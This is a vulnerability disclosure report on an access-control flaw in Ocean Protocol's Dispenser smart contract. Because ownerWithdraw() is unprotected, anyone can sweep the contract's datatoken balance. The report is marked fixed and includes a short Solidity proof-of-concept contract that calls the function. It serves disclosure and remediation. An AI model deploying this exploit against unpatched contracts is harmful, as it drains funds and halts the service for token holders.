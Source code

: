 # Improper Access Control on Ocean Protocol Dispenser Contract

## Target: *https://github.com/oceanprotocol/contracts/blob/v4main/contracts/pools/dispenser/Dispenser.sol*

## Severity: Medium

## Status : Fixed

## Commit: *https://github.com/oceanprotocol/contracts/commit/421894dadb7bb5b51340afe022ae716c280670f0*

## Bug Description
*The function ownerWithdraw() is not protected with proper access controls and leaves anyone to call the function and sweeps the entire balance of data token that which Dispenser contract hold*

## Permalink
https://github.com/oceanprotocol/contracts/blob/b937a12b50dc4bdb7a6901c33e5c8fa136697df7/contracts/pools/dispenser/Dispenser.sol#L253
https://github.com/oceanprotocol/contracts/blob/b937a12b50dc4bdb7a6901c33e5c8fa136697df7/contracts/pools/dispenser/Dispenser.sol#L261

## Proof Of Concept :
```
pragma solidity ^0.8.12;

interface IDispenser {
    function ownerWithdraw(address datatoken) external;
}

contract sweep {
    IDispenser dispenser = IDispenser(DISPENSER_ADDRESS);
    function sweep() external {
        dispenser.ownerWithdraw(DATATOKEN_ADDRESS);
    }
}
```
## Impact
*The balance is entirely transferred to the payment collector and makes "Smart contract unable to operate due to lack of token funds".
The Token Funds are used in the dispense() function and transferred to the destination address called by users who hold the DT tokens.*

## Recommendation
*Need to Implement Access Control.*
